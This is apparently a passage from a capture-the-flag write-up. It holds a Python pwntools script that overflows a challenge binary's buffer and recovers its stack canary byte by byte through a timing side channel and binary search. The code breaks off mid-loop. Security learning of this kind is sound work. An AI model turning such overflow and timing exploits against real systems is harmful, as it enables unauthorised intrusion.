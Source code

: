 It is also done in python 2 so that Unicode doesn't edit the bytes.

```py
from pwn import *
import time
import sys
known = []
# This stands for epsilon and is the difference in time that we will allow to be defined
# as no difference but merely an issue of network latency 
EPS = 0.25

# remote connection details
host = 'ccc-bh01.allyourbases.co'
port = 8132

# Parse command line options to see if we want to be local or remote
local = True
if len(sys.argv) >= 2:
    local = sys.argv[1] == 'local'

# Exploit timing wrapper which also provides some additional logging
def send_exploit(canary):
    try:
        print(canary)
        # get appropriate pwntools connection to binary
        p = None
        if local:
            p = process('./program')
        else:
            p = remote(host, port)
        p.recvuntil('\n') # read remote input
        p.sendline(248*"A" + canary) # buffer overflow the strcpy and overwrite the canary

        # time until the program quits
        start = time.time()
        p.recvuntil('terminated')
        p.close()
        return int(time.time() - start) # return the length of time in seconds
    except EOFError:
        # if the connection closed unexpectedly (i.e. we didn't recieve 'terminated')
        # then the program quit with the correct canary and we have the solution
        # the correct canary takes 0 seconds to check, hence why we return 0
        return 0 

# work out each byte in the canary
for i in range(4):
    # we measure the smallest length of time we can produce with the tool and use this as a reference
    baseline = send_exploit("".join(known) + "\x01" * (4 - len(known))) 
    print(baseline)
    min = 1
    max = 255
    while True:
        # Select the midpoint for binary search
        testing = (max + min) // 2
        print(testing)
        newtime = send_exploit("".join(known) + chr(testing) + "\x01" * (3 - i)) # time the exploit we have so far
        print(newtime)

        # checking if two times are equal when random latency is added is equivalent to checking if they differ
        # by a certain amount. Here it is the epsilon printed at the top of the file
```